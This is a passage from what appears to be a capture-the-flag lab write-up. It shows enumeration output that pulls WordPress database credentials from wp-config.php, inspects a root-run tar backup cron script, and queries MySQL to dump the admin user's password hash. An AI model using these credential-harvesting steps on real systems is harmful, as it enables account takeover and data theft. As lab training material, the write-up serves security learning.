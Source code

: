 ### Wordpress database password

<img src="../Images/image-20230815213814475.png" alt="image-20230815213814475" style="zoom:80%;" />

```bash
╔══════════╣ Analyzing Wordpress Files (limit 70) 
-rw-r--r-- 1 alice alice 3194 Nov 16  2021 /var/www/html/wp-config.php
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'karl' );
define( 'DB_PASSWORD', 'Wordpress1234' );
define( 'DB_HOST', 'localhost' ); 
```

Check the cronjob script details.

```bash
redis@readys:/var/lib/redis$ cat /usr/local/bin/backup.sh 
#!/bin/bash

cd /var/www/html
if [ $(find . -type f -mmin -3 | wc -l) -gt 0 ]; then
tar -cf /opt/backups/website.tar *
fi
redis@readys:/var/lib/redis$ ls -al /usr/local/bin/backup.sh 
-rwxr-xr-x 1 root root 122 Nov 17  2021 /usr/local/bin/backup.sh
redis@readys:/var/lib/redis$ 

```

We didn't have permission to change this file, now login to mysql to check the details.

### MySQL

```bash
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| wordpress          |
+--------------------+

MariaDB [wordpress]> show tables;
| wp_users              |
+-----------------------+
MariaDB [wordpress]> select * from wp_users;
|  1 | admin      | $P$Ba5uoSB5xsqZ5GFIbBnOkXA0ahSJnb0 | admin         | test@test.com 
```
